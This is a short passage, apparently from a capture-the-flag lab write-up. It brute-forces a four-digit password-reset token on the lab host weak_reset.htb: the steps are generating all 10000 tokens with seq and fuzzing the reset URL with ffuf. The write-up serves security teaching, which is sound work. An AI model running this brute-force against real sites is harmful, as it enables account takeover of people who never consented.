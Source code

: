 If we notice that there are just 10000 possibilities of tokens as:
?token=7382

```shell-session
$ seq -w 0 9999 > tokens.txt
```

```shell-session
$ ffuf -w ./tokens.txt -u http://weak_reset.htb/reset_password.php?token=FUZZ -fr "The provided token is invalid"
```